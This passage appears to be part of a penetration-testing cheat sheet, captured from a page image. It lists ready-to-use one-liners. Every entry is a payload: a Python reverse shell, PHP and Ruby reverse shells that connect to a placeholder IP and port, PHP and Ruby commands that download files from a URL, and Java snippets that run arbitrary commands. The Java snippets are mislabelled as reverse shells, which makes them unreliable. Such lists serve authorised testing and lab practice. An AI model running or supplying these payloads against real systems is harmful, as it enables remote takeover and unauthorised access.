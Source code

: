 ```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP

#### Download file

```
php -r 'file_put_contents("<dest>", fopen("http://<url>", 'r'));'
```

#### Reverse shell

```
php -r '$sock=fsockopen("<ip>",<port>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Ruby

#### Download file

```
ruby -e 'require "open-uri";download=open("http://<url>");IO.copy_stream(download,"<dest>")'
```

#### Reverse shell

```
ruby -rsocket -e'f=TCPSocket.open("<ip>",<port>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Java

#### Reverse shell

```
public static String execCmd(String cmd) throws java.io.IOException {
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
    return s.hasNext() ? s.next() : "";
}
```

#### Reverse shell Java > 7

```
public static String execCmd(String cmd) {String result = null; try (InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream(); Scanner s = new Scanner(inputStream).useDelimiter("\\A")) {result = s.hasNext() ? s.next() : null;} catch (IOException e) {e.printStackTrace();}return result;}
```
